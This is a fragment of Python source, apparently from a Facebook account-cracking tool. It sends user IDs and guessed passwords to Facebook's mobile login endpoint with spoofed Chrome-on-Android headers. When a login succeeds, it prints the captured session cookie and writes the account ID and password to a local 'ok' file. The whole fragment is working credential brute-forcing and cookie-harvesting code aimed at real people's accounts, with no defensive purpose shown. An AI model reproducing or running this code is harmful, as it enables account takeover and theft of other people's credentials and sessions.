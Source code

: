             "login":"Log In"}

            header_freefb = {"authority": 'm.facebook.com',

            "method": 'GET',

            "scheme": 'https',

            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',

            "accept-encoding": 'gzip, deflate, br',

            "accept-language": 'en-GB,en-US;q=0.9,en;q=0.8',

            'cache-control': 'no-cache, no-store, must-revalidate',

            "referer": 'https://p.free.facebook.com/',

            "sec-ch-ua": '"Google Chrome";v="107", "Not)A;Brand";v="24", "Chromium";v="107"',

            "sec-ch-ua-mobile": '?1',

            "sec-ch-ua-platform": "Android",

            "sec-fetch-dest": 'document',

            "sec-fetch-mode": 'navigate',

            "sec-fetch-site": 'none',

            "sec-fetch-user": '?1',

            "upgrade-insecure-requests": '1',

            "user-agent": pro}

            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text

            log_cookies=session.cookies.get_dict().keys()

            if 'c_user' in log_cookies:

                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

                cid = coki[65:80]

                print(f'\r\033[97;1m       [𝐎𝐊] '+uid+' | '+ps+'\33[0;92m')

                #print(f'\r\33[1;92m       [🚀] Number : {uid}')

                

                print(f'\r\033[1;92m [🚀] COOKIE : '+coki)

                oks.append(cid)

                open('/sdcard/S4MI-ok.txt', 'a').write(cid+' | '+ps+' | '+uid+'\n')

                break

            else:

                continue
